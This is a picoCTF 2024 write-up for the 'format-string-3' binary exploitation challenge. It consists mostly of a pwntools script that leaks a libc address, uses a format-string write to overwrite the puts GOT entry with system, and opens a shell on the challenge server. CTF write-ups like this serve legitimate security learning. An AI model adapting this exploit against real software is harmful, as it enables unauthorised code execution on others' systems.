 # Description

_#Medium_<br>
_#Binary_Exploitation_<br>
_#picoCTF_2024_<br>
_#format_string_<br>
_#browser_webshell_solvable_<br>

This program ***doesn't contain a win function***. How can you win?<br>
Download the binary [here](format-string-3).<br>
Download the source [here](format-string-3.c).<br>
Download libc [here](libc.so.6), download the interpreter [here](ld-linux-x86-64.so.2). Run the binary with these two files present in the same directory.

## Solution


``` python
#!/usr/bin/env python3
from pwn import *

# Context setup
exe = "./format-string-3"
libc_path = "./libc.so.6"

context.binary = ELF(exe)
libc = ELF(libc_path)
context.terminal = ["tmux", "splitw", "-h"]

# Offset for the format string vulnerability
FMT_STR_OFFSET = 38


def leak_libc_base(io):
    """Leaks the libc base address from the provided setvbuf leak."""
    io.recvuntil(b'setvbuf in libc: ')
    setvbuf_leak = int(io.recvline().strip(), 16)
    log.info(f"Leaked setvbuf address: {hex(setvbuf_leak)}")

    libc_base = setvbuf_leak - libc.symbols["setvbuf"]
    log.info(f"Calculated libc base address: {hex(libc_base)}")

    libc.address = libc_base  # Set the base address for further calculations
    return libc_base


def create_payload():
    """Creates the format string payload to overwrite GOT entry for `puts`."""
    target_address = context.binary.got["puts"]
    system_address = libc.symbols["system"]
    log.info(f"Target address (GOT entry for puts): {hex(target_address)}")
    log.info(f"New function address (system): {hex(system_address)}")

    payload = fmtstr_payload(FMT_STR_OFFSET, {target_address: system_address})
    log.info(f"Generated payload: {payload}")
    return payload


def main():
    # Connect to the target binary (remote or local)
    io = remote("rhea.picoctf.net", 64550)

    # Attach GDB for debugging if required
    if args.GDB:
        gdb.attach(io, gdbscript="b *main+127\ncontinue")

    # Leak libc base address
    libc_base = leak_libc_base(io)

    # Create the payload to exploit the format string vulnerability
    payload = create_payload()

    # Send the payload
    io.sendline(payload)

    # Get an interactive shell
    io.interactive()


if __name__ == "__main__":
    main()
```
**This script was written with reference to [online author].(https://blog.thecyberthesis.com/blog/writeups/picoCTF/pwn/format-string-3).*
